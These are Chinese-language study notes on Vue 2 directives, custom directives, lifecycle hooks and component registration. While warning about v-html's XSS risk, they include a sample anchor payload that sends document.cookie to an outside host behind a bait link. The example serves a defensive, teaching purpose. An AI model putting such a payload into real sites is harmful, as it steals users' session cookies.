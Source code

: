#### 1.内置指令
    我们学过的指令：
            v-bind	: 单向绑定解析表达式, 可简写为 :xxx
            v-model	: 双向数据绑定
            v-for  	: 遍历数组/对象/字符串
            v-on   	: 绑定事件监听, 可简写为@
            v-if 	 	: 条件渲染（动态控制节点是否存存在）
            v-else 	: 条件渲染（动态控制节点是否存存在）
            v-show 	: 条件渲染 (动态控制节点是否展示)
    v-text指令：
            1.作用：向其所在的节点中渲染文本内容。v-text的值拿来当做被绑定节点的文本，不会解析标签。（常用！）
            2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。
#### 2.v-html指令：
        1.作用：向指定节点中渲染包含html结构的内容。
        2.与插值语法的区别：
                    (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
                    (2).v-html可以识别html结构。
        3.严重注意：v-html有安全性问题！！！！
                    (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
                    (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
        在打印台可以直接打印出部分cookie，网站服务器给我们的cookie中，有的会作限制，仅http请求可获取，这样式的document.cookie不能拿到。
            如果网站没有对敏感信息做出限制，利用v-html在a标签里可以拿到cookie然后跳转到攻击者的服务器，拿到我们的cookie

```html
<div v-html="str2"></div>
```
```js
str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
```

#### 3.v-cloak指令（没有值）：
        1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
        2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
                为什么网速慢会出现这个问题呢？因为网速慢，Vue.js还没请求过来，Vue还没介入管理模板，{{XXX}}不被解析，页面上会暂时出现{{XXX}}。
            可配合属性选择器display:none，当Vue介入管理时会删掉v-cloak属性，并解析{{}}。
```css
[v-cloak]:{
    display:none;
}
```
##### 使用场景：
    因为网速，页面作展示时要等Vue来解析模板

#### 4.v-once指令：
        1.v-once所在节点在初次动态渲染后，就视为静态内容了。
        2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
#### 5.v-pre指令：
        1.跳过其所在节点的编译过程。
        2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。  
    如果节点中用不到插值语法及一些指令，就用v-pre，该节点中的内容将不会被解析，加快页面整体编译      
#### 6.自定义属性
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
    需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
    自定义指令总结：
*            一、定义语法：
                        (1).局部指令：
                                    new Vue({
                                        directives:{指令名:配置对象}   或   		directives{指令名:回调函数}
                                    }) 																	
                        (2).全局指令：
                                    Vue.directive(指令名,配置对象) 或   Vue.directive(指令名,回调函数)

*            二、配置对象中常用的3个回调：
                        (1).bind：指令与元素成功绑定时调用。
                        (2).inserted：指令所在元素被插入页面时调用。
                        (3).update：指令所在模板结构被重新解析时调用。

*            三、备注：
                        1.指令定义时不加v-，但使用时要加v-；
                        2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。用''包起来，因为声明函数简写形式不能带-，只能不简写了
    // 完整模式
```js
    big2:{
        // 指令与元素完成绑定的时候，这个时候还没有生成真实DOM
        bind(element,binding){
            element.value = binding.value;
        },
        // 指令所在元素被插入界面时，这个时候才有真正的DOM出现
        inserted(element,binding){
            element.focus()
        },
        // 指令所在的模板被重新渲染的时候
        update(element,binding){
            element.value = binding.value;
        }
    }

    简写模式去掉了inserted，简写函数的内容就是bind和update
```                
#### 7.生命周期函数
生命周期：
1. 又名：生命周期回调函数、生命周期函数、生命周期钩子。
2. 是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数。
3. 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4. 生命周期函数中的this指向是vm 或 组件实例对象。
* 常用的生命周期钩子：
						1.mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
						2.beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

				关于销毁Vue实例
						1.销毁后借助Vue开发者工具看不到任何信息。
						2.销毁后自定义事件会失效，但原生DOM事件依然有效。
						3.一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。
[生命周期函数](../02_原理图/生命周期.png)

#### 8.非单元文件组件、Vue中使用组件的三大步骤：
        一、定义组件(创建组件)
        二、注册组件
        三、使用组件(写组件标签)

一、如何定义一个组件？
            使用Vue.extend(options)创建，其中options和new Vue(options)时传入的那个options几乎一样，但也有点区别；
            区别如下：
                    1.el不要写，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
                    2.data必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。
            备注：使用template可以配置组件结构。

二、如何注册组件？
                1.局部注册：靠new Vue的时候传入components选项
                2.全局注册：靠Vue.component('组件名',组件)

三、编写组件标签：
                <school></school>
##### 几个注意点：
            1.关于组件名:
                        一个单词组成：
                                    第一种写法(首字母小写)：school
                                    第二种写法(首字母大写)：School
                        多个单词组成：
                                    第一种写法(kebab-case命名)：my-school
                                    第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持)
                        备注：
                                (1).组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
                                (2).可以使用name配置项指定组件在开发者工具中呈现的名字。

            2.关于组件标签:
                        第一种写法：<school></school>
                        第二种写法：<school/>在脚手架中可以随便用，但是在原始的HTML中，仅能解析第一个这种单标签组件
                        备注：不用使用脚手架时，<school/>会导致后续组件不能渲染。

            3.一个简写方式：
                        const school = Vue.extend(options) 可简写为：const school = options
                            虽然我们没有明面上的调用Vue.extend。但是在注册路由的时候，会判断传入的内容，如果传入的直接就是一个对象，他会帮我们调用Vue.extend。如果我们已经写好了Vue.extend，那么他拿过来直接就用了